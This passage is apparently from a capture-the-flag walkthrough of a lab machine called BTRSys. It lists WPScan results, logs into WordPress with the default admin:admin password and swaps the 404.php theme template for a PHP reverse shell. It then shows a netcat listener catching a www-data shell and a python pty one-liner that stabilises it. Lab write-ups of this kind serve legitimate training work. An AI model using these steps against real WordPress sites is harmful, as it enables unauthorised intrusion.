 ```javascript
[+] Elapsed time: 00:01:10
```



### FINDINGS-FOR-PORT-80
```javascript
## WPSCAN-RESULT ##
1.FOUND 2 USER: btrisk , admin
2. WordPress version 3.9.14 
```

#### Finding the password for the both the user
```javascript
1. Navigate to http://192.168.188.50/wordpress , Down below there is login button clicking on it will redirect to http://192.168.188.50/wordpress/wp-login.php   
2. Now Manually try the default password admin:admin on that login page 
3. After Trying admin:admin we get logged in as "admin" user
```
![wordpress-login-BTRSys](https://user-images.githubusercontent.com/98345027/188364413-39ab3682-7df6-46ae-b1f8-8bac834626ee.png)

### Reverse Shell
```javascript
1.Having authenticated to the application, we can gain an easy reverse shell using Wordpress theme template files.
2.Move to Pentest Monkey(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) copy the php-reverse-shell.php
3.Head over to The ( Dashboard----> Appearance -----> Editor) and select the 404.php. From here we can remove the PHP contents and replace it with our php-reverse-shell.
4.Once Updated we can set a netcat listener and then reload the main page on http://192.168.188.50/wordpress/index.php
```

![NEW-WEBPAGE-REVERSESHELL](https://user-images.githubusercontent.com/98345027/188367891-3db05304-9f61-40cb-af9c-f29798a2d934.png)


## GETTING A SHELL

![GETTING A SHELL](https://user-images.githubusercontent.com/98345027/188368231-b1c0a057-60d0-4ae0-8a53-e8d86aab3ed3.png)
```javascript
1. After getting the shell we have to stabilise the shell by below python code
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```javascript
┌──(dx㉿kali)-[~]
└─$ sudo nc -lvp 80
listening on [any] 80 ...
192.168.188.50: inverse host lookup failed: Unknown host
connect to [192.168.49.188] from (UNKNOWN) [192.168.188.50] 47774
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:56:04 up 8 min,  0 users,  load average: 0.00, 0.03, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/$ whoami
whoami
www-data
www-data@ubuntu:/$ 
```
